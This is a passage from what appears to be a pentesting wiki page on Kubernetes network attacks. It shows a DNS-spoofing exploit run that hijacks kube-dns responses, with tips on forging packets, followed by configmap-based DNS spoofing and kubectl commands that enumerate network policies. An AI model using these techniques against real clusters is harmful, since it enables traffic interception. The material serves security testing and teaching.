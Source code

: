 ```
python3 exploit.py --direct 172.17.0.10
[*] starting attack on direct mode to pod 172.17.0.10
Bridge:  172.17.0.1 02:42:bd:63:07:8d
Kube-dns:  172.17.0.2 02:42:ac:11:00:02

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

```bash
#In the ubuntu machine
dig google.com
[...]
;; ANSWER SECTION:
google.com.		1	IN	A	1.1.1.1
```

> [!NOTE]
> If you try to create your own DNS spoofing script, if you **just modify the the DNS response** that is **not** going to **work**, because the **response** is going to have a **src IP** the IP address of the **malicious** **pod** and **won't** be **accepted**.\
> You need to generate a **new DNS packet** with the **src IP** of the **DNS** where the victim send the DNS request (which is something like 172.16.0.2, not 10.96.0.10, thats the K8s DNS service IP and not the DNS server ip, more about this in the introduction).

## DNS Spoofing via coreDNS configmap

A user with write permissions over the configmap `coredns` in the kube-system namespace can modify the DNS responses of the cluster.

Check more information about this attack in:

{{#ref}}
abusing-roles-clusterroles-in-kubernetes/README.md
{{/ref}}

## Enumerating kubernetes network policies

Get configured **networkpolicies**:

```bash
kubectl get networkpolicies --all-namespaces
```

Get **Callico** network policies:

```bash
kubectl get globalnetworkpolicy --all-namespaces
```

Get **Cillium** network policies:

```bash
kubectl get ciliumnetworkpolicy --all-namespaces
```

Get other policy-related CRDs installed by your network plugin or security solution:
